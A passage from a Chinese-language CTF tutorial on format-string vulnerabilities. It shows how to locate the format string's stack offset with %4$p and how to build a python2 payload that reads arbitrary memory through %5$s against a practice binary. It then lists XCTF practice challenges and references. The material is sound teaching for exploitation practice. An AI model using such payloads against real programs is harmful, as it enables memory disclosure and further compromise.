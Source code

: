 由 0x41414141 处所在的位置可以看出我们的格式化字符串的起始地址正好是输出函数的第 5 个参数，但是是格式化字符串的第 4 个参数。我们可以来测试一下

<center><img src="./img/print_input.PNG"  ></center>

### (2). 根据偏移查看输出内容

0x41414141 是输出的第 4 个字符，所以我们使用 %4$p 即可读出 0x41414141 处的内容，
```bash
$ ./leakmemory
AAAA%4$p
00000001.22222222.ffffffff.AAAA%4$p
AAAA0x41414141
```

---

当然，这可能是一个不合法的地址。我们把 AAAA 换成我们需要的合法的地址即可查看对应地址的内容。

```bash
python2 -c 'print("AAA" + "\00\x10\xd3\xff\xff"+".%5$s")' > text
```

<center><img src="./img/get_address_context.PNG"  ></center>

---


## 2 格式化字符串漏洞练习题

- [XCTF-攻防世界 CGfsb 格式化字符串漏洞](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5050&page=1)
- [实时数据监测](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4913&page=1)

---

## 参考资料

- [ctf wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_exploit-zh/#_4)
- [ctf alll in one](https://firmianay.gitbooks.io/ctf-all-in-one/content/doc/2.3.1_gdb.html)